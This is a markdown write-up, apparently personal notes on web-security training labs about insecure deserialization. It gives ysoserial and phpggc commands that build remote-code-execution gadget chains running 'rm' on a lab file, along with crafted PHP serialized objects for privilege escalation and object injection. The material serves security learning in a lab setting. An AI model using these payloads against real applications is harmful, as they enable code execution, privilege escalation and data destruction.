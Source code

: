 
# Insecure deserialization
## Approach  
I recommend you to install **Java Deserialization Scanner** extension for BurpSuite to scan for the type of serialized object. Of course, to create gadgets you will need to use [ysoserial](https://github.com/frohoff/ysoserial).  
Quick notes:  
You need to have at least Java JDK 11 version to use the jar file!
```
java -jar ysoserial-all.jar CommonsCollections2 "rm /home/carlos/morale.txt" | gzip -f | base64 -w 0
```


## Labs
### 1. Modifying serialized data types
```
1. Change username to administrator (13 symbols)
2. Change parameter access_token from s to i as follows:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

### 2. Using application functionality to exploit insecure deserialization
```
1. Delete additional user.
2. For the POST /my-account/delete request change deserialized session cookie to:
s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
3. Send it.
```

### 3. Arbitrary object injection in PHP
```
1. Check for /libs/CustomTemplate.php~
2. Find out destruct() method
3. Create next payload:
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

### 4. Exploiting Java deserialization with Apache Commons
```
1. Use burp scanner to identify that the serialized object is Java Commons
2. Use ysoserial to create new payload
3. Base64 + URL encode it
```

### 5. Exploiting PHP deserialization with a pre-built gadget chain
```
1. Find out php.info
2. Find out Symfony ver and Secret Key
3. Create next payload:
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
4. Sign it with Secret Key using PHP code
```
